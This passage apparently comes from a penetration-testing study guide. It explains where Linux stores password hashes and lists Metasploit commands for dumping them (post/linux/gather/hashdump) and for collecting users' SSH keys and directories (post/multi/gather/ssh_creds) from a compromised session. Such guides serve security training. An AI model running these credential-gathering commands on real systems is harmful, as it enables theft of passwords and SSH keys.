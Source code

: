 > 📌 Linux password hashes are stored in the **`/etc/shadow`** file, accessible **only by a user with root privileges**.
>
> - In newer Linux, the hashed passwords are stored in the `/etc/shadow` file. In turn, the hashed password field in the `/etc/passwd` file is filled with the `x` character. `/etc/passwd` is readable by all the users.
> - Linux users' passphrases are hashed using the [crypt](https://manpages.debian.org/unstable/libcrypt-dev/crypt.5.en.html) function. The hashed passphrase follows a specific format: **`$id$salt$hashedpassword`**
> - [Methods Used by Linux for Hashing Passwords](https://www.baeldung.com/linux/hashing-methods-password)

- `post/linux/gather/hashdump` module need to be run manually to dump the user account hashes and unshadow them
  - A hash can be cracked (with `John the Ripper`) or stored for later use

```bash
search hashdump
use post/linux/gather/hashdump
info
# Description:
#   Post Module to dump the password hashes for all users on a Linux 
#   System
set SESSION 2
run
```

![Metasploit - post/linux/gather/hashdump](.gitbook/assets/image-20230422144950444.png)

![loot](.gitbook/assets/image-20230422145236520.png)

### Some Post Exploitation

- Enumerate **ssh** directories

```bash
search ssh_creds
use post/multi/gather/ssh_creds
info
# Description:
#   This module will collect the contents of all users' .ssh directories 
#   on the targeted machine. Additionally, known_hosts and 
#   authorized_keys and any other files are also downloaded. This module 
#   is largely based on firefox_creds.rb.
sessions
# Set the Meterpreter session
set SESSION 2
run
```

![Metasploit - post/multi/gather/ssh_creds](.gitbook/assets/image-20230422145010635.png)

- Enumerate users' **.ecrypts directories**
